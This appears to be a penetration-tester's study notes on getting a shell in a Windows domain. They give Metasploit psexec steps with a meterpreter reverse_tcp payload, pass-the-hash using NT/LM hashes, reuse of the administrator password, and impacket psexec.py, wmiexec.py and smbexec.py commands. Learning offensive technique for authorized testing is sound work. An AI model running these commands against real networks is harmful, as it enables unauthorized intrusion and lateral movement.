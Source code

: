 ## Gaining Shell Access
- Don't need a shell to compromise a domain
- Shells are helpful to dig for information
### Methods
- Metasploit: `exploit/windows/smb/psexec` with a password or hash, can be noisy
- psexec: `psexec.py domain/user:'password'@ip` or `psexec.py user@ip -hashes LM:NT`, less noisy

### Metasploit
- Load up msfconsole
- `search psexec` or `use exploit/windows/smb/psexec`
- `set payload windows/x64/meterpreter/reverse_tcp`
- `set rhost <target>`
- `set smbdomain <domain>`
- `set smbuser <user>`
- `set smbpass <pass>`
- `run`
- `background`, then `sessions #` to return to it
- `set smbuser Administrator`
- `unset smbdomain`
- `set smbpass <admin NT:LM>`
- `run`
- This is password reusage, same admin password on both machines

  ![image](https://github.com/user-attachments/assets/daad8166-3c37-4b1a-90ee-5fa9d0690bc4)

### psexec
- `psexec.py <domain>/<user>:<'password'>@<ip>`

  ![image](https://github.com/user-attachments/assets/647a4452-f2f9-4775-b2b0-3b2a309a9d32)

- `psexec.py Administrator@10.0.2.5 -hashes <admin NT:LM>

  ![image](https://github.com/user-attachments/assets/cd28702d-c8a3-48c5-8fb9-bac9d91df083)

### Other Options
- If psexec is getting blocked, try `wmiexec.py` or `smbexec.py`

![image](https://github.com/user-attachments/assets/4238ceac-3aba-4501-a1df-b1e1ae8f91dc)
